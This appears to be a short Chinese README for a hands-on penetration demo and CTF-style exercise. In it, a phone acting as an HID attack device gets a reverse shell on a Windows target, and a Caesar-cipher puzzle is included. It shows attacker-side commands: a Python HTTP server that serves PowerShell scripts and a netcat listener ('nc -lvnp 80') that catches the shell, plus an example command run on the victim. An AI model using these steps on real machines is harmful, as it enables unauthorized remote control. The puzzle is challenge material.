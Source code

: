 ## 近源渗透体验
服务器配置
```python
#打开python服务器来访问ps脚本
cd /opt/shell;sudo python -m http.server 82

#监听本地端口
sudo nc -lvnp 80

```

客户端
电脑打开就行



### 游玩指南
俩台电脑,一台linux服务器,用来接收shell
另一台window,用来当靶机


手机作为一个hid attack攻击设备
- 攻击机监听本地端口,在命令行输入`sudo nc -lvnp 80`![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230912235031.png)
*监听成功标志*

- 单击设备上的preview,点击右上角三角符号开始攻击


- 等待攻击完成即可执行任意命令
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230912235341.png)

*攻击成功标志*


部分命令指南

| 命令                            | 结果                                             | 举例 |
| ------------------------------- | ------------------------------------------------ | ---- |
| type "\<content\>" > ~/\<name\> | 在对方桌面新建一个\<name\>文件,内容为\<content\> | echo "i am hacker" >~/Desktop/haha.txt     |
|                                 |                                                  |      |





## 密码破解
凯撒密码  密文:synt{jrypbzr_gb_ajh}

